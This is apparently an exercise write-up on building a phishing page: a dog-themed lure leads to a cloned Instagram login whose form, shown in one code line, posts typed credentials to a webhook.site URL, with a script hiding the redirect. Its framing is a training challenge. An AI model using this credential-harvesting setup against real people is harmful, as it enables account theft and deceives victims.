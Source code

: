 #Phishing Exercise

## Introduction

There are different types of phishing, however, many of them are based on the reproduction of a web document, to do this it is necessary to use different programming languages and tools.

### Challenge

- Bob has a dog (a bull terrier) named "Shimi". Bob really loves his dog. 
- Your mission will be to obtain Bob's password of some platform of your choice.


___________________________________________________________

## Table of content

 - [Creating the webpage with HTML and CSS]()

- [Recreating Instagram Log-in page]()

- [WebHook]()

- [Script with JavaScript]()


#### **_NOTE: The exercise has been done entirely with VScode and then tested on Brave browser._** 


#### Inspiration from [Zphisher Tool.](https://github.com/htr-tech/zphisher "https://github.com/htr-tech/zphisher") 


______________________________________________________________________


### Creating the webpage with HTML and CSS

An HTML webpage is built using a combination of HTML (Hypertext Markup Language) and CSS (Cascading Style Sheets) to define the structure and presentation of the content.


#### Steps to create the phishing webpage:

- Doctype declaration (`<!DOCTYPE html>`) to specify the HTML version.
- Opening and closing `<html>` tags to enclose the HTML document.
- `<head>` section containing metadata such as character encoding, viewport settings, title, and external CSS stylesheets.
- Opening and closing `<body>` tags to contain the visible content of the webpage.
- `<div>` elements with classes "container" and "text-area" for organizing content.
- Heading elements (`<h1>`, `<h2>`, `<h3>`) for displaying different levels of headings.
- `<img>` tag to display an image.
- `<ul>` (unordered list) with `<li>` (list item) elements to create a bulleted list.
- `<button>` element with a class "call-to-action" and an anchor (`<a>`) element inside for creating a clickable button.
- Anchors (`<a>`) with href attributes to create links to other pages.

Additionally, the file references resources such as an image file ("Shimi-terrier.jpg"), a favicon image ("pedigree-logo.png"), and a CSS file ("style.css") for styling the webpage.

Here to see the codes.  ------>   [LINK]() 

[IMAGE of the HTML CODE]

#### Putting some style with CSS

The HTML file itself without the "styling" from the CSS  it would look so chaotic, so I wrote down some lines in order to customize a bit the webpage.

Here you can find the CSS file if you are curious to see.     ----->    [LINK]()


#### And here is the final result of our phishing page
[IMAGE of the HTML page]


________________________________

### Recreating Instagram Log-in page

##### Once you set up the HTML (with its CSS)
In my case I have created an html that works as an initial phishing webpage, with it a **"call to action"** button to redirect to a landing page that is a copy of Instagram Log-in page.

I managed to have a copy of the HTML and CSS of Instagram Log-In page through [CODEPEN.IO](https://codepen.io/azamatmj/pen/LdrMXv)

Looks pretty much the same as the original Instagram Log-In page, but I had to add the Header tag in the HTML in order to implement: Logo on the tab browser, link it with its CSS and finally in its body a  Script with JS (for the [WebHook]()).

Here is the HTML            ------->    [LINK]() 

Here is the CSS                ------->    [LINK]() 


##### Try to find the difference with the original site
[PHOTO OF THE LOG-IN PAGE]()


______________________________________


### Let's make it work now!

##### Collecting data with WebHook
To gather the information that our victim Bob is typing in order to log-in into Instagram to get in contact with Pedigree Team, we will be using [WebHook](https://webhook.site/)

Webhook.site, **an HTTP-based callback function that allows lightweight, event-driven communication between 2 application programming interfaces (APIs).** Webhooks are used by a wide variety of web apps to receive small amounts of data from other apps, but webhooks can also be used to trigger automation workflows in GitOps environments.

Once we get into the site, we will be given a unique URL  which we will need to insert in the HTML file, precisely in the "form" tag (in line 25) in order to communicate with the site:

```
<form id="myForm" action="https://webhook.site/1094a4f8-3820-40c4-9a7e-78383e181346" method= "POST" class="form">
```

__________________________________________


### Almost done!

##### JavaScript is the last step
We will need to finish with a script so we can make the Log-In webpage work and act like the real one and to make it **not redirect to the WebHook site** once the form is filled.


Finally we will insert before the closing tag of the body of our HTML file:
```
<script src="script.js"></script>
```
in order to implement it in the webpage.



Here is the JavaScript            ------->    [LINK]() 

_______________________________________


### Done!

Finally we can test it. Once filled the form and clicked on "log in", we can visit our WebHook site and we will find the credentials needed!

[PHOTO OF WEBHOOK]()
